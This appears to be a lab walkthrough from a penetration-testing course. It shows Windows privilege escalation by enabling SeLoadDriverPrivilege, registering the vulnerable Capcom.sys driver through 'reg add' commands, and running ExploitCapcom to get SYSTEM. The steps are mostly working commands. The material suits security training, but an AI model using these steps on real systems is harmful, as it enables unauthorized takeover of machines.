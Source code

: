 Its well known that the driver `capcom.sys` contains functionality that allows users to execute shell code with `SYSTEM` privs. We can use our user privs to load this driver and escalate. 

We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.

Download it locally and edit it, pasting over the includes below.
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
next we can compile it with `cl.exe` 
```cmd-session
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`
Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree.
```cmd-session
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```
```cmd-session
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

#### Verify Driver is not loaded
Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.
```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```
#### Verify Privs are enabled
Run the `EnableSeLoadDriverPrivilege.exe` binary.
```cmd-session
EnableSeLoadDriverPrivilege.exe
whoami /priv
```
#### Verify Capcom Driver is Listed
next we verify the capcom driver is listed.
```powershell-session
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```
#### Using ExploitCapcom Tool to Escalate Privs
To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.
```powershell-session
.\ExploitCapcom.exe
```
